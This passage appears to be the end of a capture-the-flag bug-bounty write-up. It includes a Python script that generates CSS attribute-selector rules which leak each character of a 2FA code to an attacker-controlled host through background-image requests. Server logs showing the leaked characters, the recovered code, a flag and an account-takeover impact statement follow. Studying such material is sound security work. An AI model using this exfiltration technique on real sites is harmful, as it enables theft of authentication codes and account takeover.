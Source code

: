 ```python
def value():
    file = open(css,'w')
    for s in (string.ascii_letters + string.digits):
        for i in range(1,8):
            line = "input[name='code_%d'][value^='%s'] {background: url('%s/%d_%s');}" % (i, s, hostname, i, s)
            print(line)
            file.write(line+'\n')
    file.close()

if __name__ == "__main__":
    value()
    #input = input("str: ")
    #while(input != 'exit'):
    #    name(input)
    #    input = input("str: ")
```
Then executed every thing together and got the following response
```
3.21.98.146 - - [07/Jun/2020 18:17:59] "GET /css/uni_2fa_style.css HTTP/1.1" 200 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /7_i HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /1_0 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /2_8 HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /3_P HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /4_V HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /5_F HTTP/1.1" 404 -
3.21.98.146 - - [07/Jun/2020 18:18:00] "GET /6_J HTTP/1.1" 404 -
```
Sort by field number got "O8PVFJi", sent the 2FA code and paid the bountys!

{F858313}

Flag: ==^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$==

## Supporting Material/References:
https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/

## Impact

By chaining multiple vulnerabilities attacker can achieve full account takeover and access to restricted functions.

## Attachments
- 1-dirsearch.png
- login-2fa.png
- unauthorized.png
- intruder-cookie.png
- intruder-cookie2.png
- apk-decompiled.png
- completed-android-challenges.png
- apk-log-token.png
- sandra-id.png
- pay-bounty-home.png
- payment-2fa-challenge.png
- flag.png
